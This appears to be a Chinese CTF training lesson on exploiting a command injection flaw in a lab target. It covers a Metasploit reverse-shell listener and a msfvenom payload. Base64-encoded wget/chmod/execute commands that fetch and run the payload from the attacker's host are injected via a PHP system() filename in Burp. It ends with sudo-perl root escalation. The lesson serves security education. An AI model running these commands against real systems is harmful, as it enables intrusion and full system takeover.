# CTF入门课程：P25：命令注入2

## 概述

在本节课中，我们将继续学习命令注入漏洞的利用。上节课我们成功执行了`id`命令并获取了用户信息。本节课我们将利用该漏洞，通过反弹Shell的方式获取靶场机器的完整控制权，并最终取得Flag值。

## 准备工作

上一节我们介绍了如何利用`searchsploit`工具和网站搜索漏洞。本节中我们来看看如何利用已发现的漏洞进行更深层次的渗透。

在进行渗透之前，需要完成以下准备工作。



以下是攻击者（Kali Linux）需要执行的步骤：



1.  **启动Metasploit监听**：在攻击机上启动Metasploit，监听一个端口，等待靶场机器反弹回来的Shell连接。
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST 192.168.1.106 # 攻击机IP
    set LPORT 4444
    exploit
    ```







2.  **生成Shell文件**：使用`msfvenom`工具生成一个Linux可执行的反弹Shell文件，并将其放置在Web服务器目录下。
    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=4444 -f elf > /var/www/html/shell.elf
    ```



3.  **启动Web服务器**：启动Apache服务，以便靶场机器能够下载我们生成的Shell文件。
    ```bash
    service apache2 start
    ```

## 构造并加密攻击命令

准备工作完成后，我们需要构造三条命令，让靶场机器执行。为了绕过防火墙等安全检测，我们将使用Base64对这些命令进行编码。

以下是需要让靶场机器执行的三条命令及其Base64编码：



1.  **下载Shell文件**：让靶场机器从我们的Web服务器下载`shell.elf`文件，并保存为`/tmp/a`。
    ```bash
    # 原命令
    wget http://192.168.1.106/shell.elf -O /tmp/a
    # Base64编码后
    d2dldCBodHRwOi8vMTkyLjE2OC4xLjEwNi9zaGVsbC5lbGYgLU8gL3RtcC9h
    ```





2.  **赋予执行权限**：给下载的文件`/tmp/a`赋予可执行权限。
    ```bash
    # 原命令
    chmod 777 /tmp/a
    # Base64编码后
    Y2htb2QgNzc3IC90bXAvYQ==
    ```



3.  **执行Shell文件**：运行`/tmp/a`文件，从而触发反弹Shell连接到我们的攻击机。
    ```bash
    # 原命令
    /tmp/a
    # Base64编码后
    L3RtcC9h
    ```





## 利用漏洞执行命令



现在，我们将利用上节课发现的命令注入漏洞，通过修改`filename`参数，依次执行上述三条Base64编码后的命令。



以下是利用Burp Suite工具进行命令注入的步骤：







1.  拦截文件上传请求，并将其发送到Repeater模块。
2.  在Repeater中，修改`filename`参数，构造PHP命令执行语句。格式为：`filename=<?php system(base64_decode(\"编码后的命令\")); ?>.php`。
3.  依次将三条编码后的命令替换到上述格式中，并发送请求。
    *   第一次发送：执行下载命令。
    *   第二次发送：执行赋权命令。
    *   第三次发送：执行Shell文件。

当第三条命令成功执行后，我们会在之前启动的Metasploit监听窗口中看到一个Meterpreter会话被建立，这表示我们已经获得了靶场机器的一个基础Shell。





## 权限提升与获取Flag



获得初始Shell后，我们通常需要提升权限。首先查看当前用户权限。







```bash
id
```
输出显示我们并非`root`用户。



接着，查看当前用户可以通过`sudo`执行哪些命令。





```bash
sudo -l
```
输出显示用户`www-data`可以无需密码以`root`权限运行`/usr/bin/perl`。





利用这一点，我们可以使用Perl来启动一个具有`root`权限的交互式Bash Shell。



```bash
sudo perl -e 'exec "/bin/sh"'
bash -i
```
执行成功后，命令提示符会变为`#`，表示我们已经获得了`root`权限。





最后，切换到根目录，寻找并读取Flag文件。



```bash
cd /
ls
cat flag.txt
```
成功获取Flag值，标志着整个渗透测试流程完成。



## 总结

本节课我们一起学习了如何将一个简单的命令注入漏洞转化为完整的系统控制权获取过程。关键步骤包括：利用漏洞执行命令、通过反弹Shell建立连接、进行权限提升以及最终获取目标Flag。



需要掌握的两个要点是：
1.  在信息收集阶段要充分，并根据收集到的信息灵活选择渗透路径。
2.  在Web渗透中，优先使用现有的漏洞利用代码（EXP），这通常比挖掘零日漏洞更高效。



通过本课程的学习，你应该对命令注入漏洞的完整利用链条有了更深入的理解。